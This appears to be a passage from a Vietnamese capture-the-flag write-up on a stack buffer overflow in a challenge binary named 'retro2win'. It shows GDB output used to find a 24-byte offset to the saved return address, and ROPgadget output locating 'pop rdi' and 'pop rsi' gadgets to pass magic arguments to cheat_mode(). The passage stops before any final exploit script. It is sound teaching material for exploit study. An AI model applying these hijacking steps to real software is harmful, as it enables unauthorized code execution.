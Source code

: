 ### Offset

Sử dụng GDB để debug binary này

* Breakpoint tại **enter\_cheatcode()** và nhập 1 test input:

```bash
gef➤  search-pattern helloiloveyou
[+] Searching 'helloiloveyou' in memory
[+] In '[heap]'(0x603000-0x624000), permission=rw-
  0x6036b0 - 0x6036bf  →   "helloiloveyou\n"
[+] In '[stack]'(0x7ffffffdd000-0x7ffffffff000), permission=rw-
  0x7fffffffdaf0 - 0x7fffffffdafd  →   "helloiloveyou"
gef➤  i f
Stack level 0, frame at 0x7fffffffdb10:
 rip = 0x400811 in enter_cheatcode; saved rip = 0x400939
 called by frame at 0x7fffffffdb30
 Arglist at 0x7fffffffdb00, args:
 Locals at 0x7fffffffdb00, Previous frame's sp is 0x7fffffffdb10
 Saved registers:
  rbp at 0x7fffffffdb00, rip at 0x7fffffffdb08
```

Như chúng ta đã thấy khi ta nhập 1 chuỗi **`helloiloveyou`** vào thì input của chúng ta sẽ nằm ở **`0x7fffffffdaf0`** và điều chúng ta muốn đó chính là kiểm soát được **`RIP(0x7fffffffdb0)`** để có quyền điều khiển được luồng thực thi của chương trình

Vậy offset của chúng ta từ input đến **RIP** là **0x18 (24)** byte&#x20;

```python
>>> hex(0x7fffffffdb08- 0x7fffffffdaf0)
'0x18'
```

Nhưng có một điều sau khi ta đã kiểm soát được RIP rồi đó là điều kiện trong hàm **cheat\_mode()**&#x20;

```c
if ( a1 != 0x2323232323232323LL || a2 != 0x4242424242424242LL )
    return puts("Unauthorized access detected! Returning to main menu...\n");
```

Nên ta phải làm cách nào đó để gọi 2 params đó **`cheat_mode(0x2323232323232323, 0x4242424242424242)`**

Nói sơ một chút về **x86\_64 calling conventions**. Khi ta gọi một hàm thì **6 arguments** đầu của nó sẽ được lưu bởi các **registers** theo thứ tự **RDI, RSI, RDX, RCX, R8, R9;** và các **arguments** sau sẽ được đưa vào stack theo thứ từ từ phải sang trái (vì stack là cấu trúc LIFO). Vì vậy, chúng ta sẽ thiết lập **RDI = 0x2323232323232323** và **RSI = 0x424242424242424**2 trước khi vào **cheat\_mode()**

Để làm điều này, chúng ta sẽ sử dụng một chuỗi ROP

```bash
➜  challenge ROPgadget --binary retro2win > gadgets
➜  challenge cat gadgets | grep "pop rdi"
0x00000000004009b3 : pop rdi ; ret
➜  challenge cat gadgets | grep "pop rsi"
0x00000000004009b1 : pop rsi ; pop r15 ; ret
```

